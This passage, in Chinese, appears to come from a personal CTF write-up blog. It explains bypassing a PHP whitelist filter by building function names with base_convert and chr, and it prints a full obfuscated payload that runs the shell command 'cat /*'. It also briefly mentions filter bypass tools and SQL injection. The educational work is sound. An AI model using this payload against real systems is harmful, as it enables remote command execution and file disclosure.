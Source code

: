 簡單來說就是針對字串進行過濾，連續的英文字必須要出現在設定好的名單裡面才行，仔細一看會發現都是跟 math 有關的 function。

除此之外也不能有不合法的字元，例如說 `$`，否則就會失敗。

這一題滿多人解出來的，但我一開始看到的時候沒什麼頭緒，只覺得應該會滿麻煩的。睡了一覺醒來之後再看了一次那個 function 的清單，看到了 base_convert，是進制轉換的。

回想起之前寫的 [如何不用英文字母與數字寫出 console.log(1)？](https://blog.huli.tw/2020/12/01/write-conosle-log-1-without-alphanumeric/) 那篇，其實就有講過可以透過進制轉換來產生出任意字元。

PHP 可以這樣執行程式碼：

``` php
<?php
 ("system")("ls /");
?>
```

所以只要能湊出 system 跟要執行的指令這兩個字串，這題就搞定了。

但要注意的是指令中會有空白跟 / 這些不能用進制轉換的字元，這怎麼辦呢？可以先湊出 `chr`，再用 chr 搭配 ascii code 就行了，就能產生任意字元。

最後的 payload 是這樣，組出 exec 跟 chr 然後組出指令：

```
(base_convert(14, 10, 36).base_convert(33, 10, 36).base_convert(14, 10, 36).base_convert(12,10,36))(base_convert(12, 10, 36).base_convert(10, 10, 36).base_convert(29, 10, 36).(base_convert(12,10,36).base_convert(17,10,36).base_convert(27,10,36))(32).(base_convert(12,10,36).base_convert(17,10,36).base_convert(27,10,36))(47).(base_convert(12,10,36).base_convert(17,10,36).base_convert(27,10,36))(42))
```

話說我是手動組的，但我下次覺得應該要寫個程式才對...

## 總結

這次就解了這三題，因為是當作休閒娛樂所以也沒什麼壓力，看題目看一看沒想法就去做其他事，隔一段時間再回來繼續解。

比較遺憾的是另外兩題 web 都沒有解掉，其中一題是要利用特殊字元繞過檢查，可以用像是 [domain-obfuscator](https://github.com/splitline/domain-obfuscator) 的工具去嘗試，這也是值得去研究的一個議題，滿有趣的。

另外一題則是 SQL injection 搭配其他技巧，當初在解的時候稍微嘗試一下，沒找到什麼然後對這個主題也不是這麼熟悉，就沒有再繼續下去了。

總之呢，解 CTF 的題目還是相當有趣的，感謝主辦單位以及出題者們。
